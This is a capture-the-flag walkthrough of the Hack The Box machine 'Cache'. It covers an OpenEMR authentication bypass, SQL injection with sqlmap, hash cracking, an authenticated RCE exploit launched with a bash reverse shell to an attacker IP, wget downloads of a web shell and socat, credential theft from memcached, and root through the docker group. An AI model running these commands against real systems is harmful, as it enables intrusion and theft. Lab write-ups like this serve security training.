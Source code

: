 # User

## nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## web server

Forms on `login.html` and `contactus.html`. The login has some client side password checking with the following login `ash:H@v3_fun`. Entering the credentials takes you to `net.html`. The contactus form doesn't look like it does much. On the `author.html` file it says:

```
ASH is a Security Researcher (Threat Research Labs), Security Engineer. Hacker, Penetration Tester and Security blogger. He is Editor-in-Chief, Author & Creator of Cache. Check out his other projects like Cache:
HMS(Hospital Management System)
```

So let's test to see if there's another virtual host

```
╭─zoey@nomadic ~/htb/tools ‹master*›
╰─$ curl -v -H 'Host: hms.htb' http://10.10.10.188
*   Trying 10.10.10.188:80...
* TCP_NODELAY set
* Connected to 10.10.10.188 (10.10.10.188) port 80 (#0)
> GET / HTTP/1.1
> Host: hms.htb
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
< Date: Tue, 12 May 2020 02:32:10 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Location: interface/login/login.php?site=default
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
```

## hms.htb

It's an OpenEMR php application. There are a few login forms. Accessing `hms.htb/sql_patch.php` shows the following version `OpenEMR 5.0.1 Database Patch 3`.
Finding vulnerabilities for this version we find an authentication bypass in `CVE-2018-15152`. This CVE allows us to bypass authentication for certains pages
in the portal. First we visit `/portal/account/register.php` and go through the prompts, then that sets some vars that allow us to access certain pages. One
of these pages is `portal/add_edit_event_user.php`. This is good because `CVE-2018-15145` tells us SQL injection is possible on this route through the `eid`,
`userid`, and `pid` parameters. Throwing the following into `sqlmap` we can dump the `users_secure` table:

`sqlmap --cookie=PHPSESSID=u8l4t7c0shmahe32h2koirf7ld -u http://hms.htb/portal/add_edit_event_user.php\?eid\=1 --technique=E -T users_secure --dump`

```
Database: openemr
Table: users_secure
[1 entry]
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
```

When we toss the value of the `password` column into a file, we can use hashcat to crack it via

`hashcat -a 0 -m 3200 cache/openemr_admin.hash /usr/share/wordlists/rockyou.txt`

And the login is `openemr_admin:xxxxxx` which allows us to login as an administrator. Which brings us to `CVE-2019-8371`. We can download the script and
modfy it a bit to work with python 3.8. We then setup a netcat listener, and run the exploit with the following command:

`python openemr_exploit.py -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.39/4444 0>&1' http://hms.htb`

Once we have our reverse shell lets setup persistence with a web shell, and socat. Download the webshell `wget http://10.10.14.39/tools/bash.php`. Then
grab socat and setup the reverse shell:

`wget http://10.10.14.39/tools/socat64s`

## ash - owning user

We can now use our login we found previously to `su` to the ash account and grab `user.txt`.

# Root

## enum

/etc/passwd

```
root:x:0:0:root:/root:/bin/bash
...
ash:x:1000:1000:ash:/home/ash:/bin/bash
luffy:x:1001:1001:,,,:/home/luffy:/bin/bash
```

/etc/group

```
docker:x:999:luffy
```

### pspy

```
2020/05/13 02:47:01 CMD: UID=0    PID=26739  | telnet 127.0.0.1 11211
```

### services

```
memcache   951  0.0  0.1 425792  4064 ?        Ssl  May12   0:16 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
```

## memcached

Running `telnet 127.0.0.1 11211` we can connect to the memcache server. We can dump items by first getting the slab id with `stats items`:

```
STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 59
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 216
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 7515
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END
```

Since the slab id is 1 we can use cachedump to get the key names:

```
stats cachedump 1 100
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
```

Then we retrieve the keys:

```
get link
VALUE link 0 21
https://hackthebox.eu
END
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
get file
VALUE file 0 7
nothing
END
get account
VALUE account 0 9
afhj556uo
END
```

## luffy - owning root

Login with `luffy:0n3_p1ec3`. Account is part of the docker group. We can use the gtfobins commands for docker. We can save and then load the alpine
package.

```sh
sudo docker save --output alpine-docker-image.tar alpine
# then transfer it to the remote machine and load it up
docker load -i alpine-docker-image.tar
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
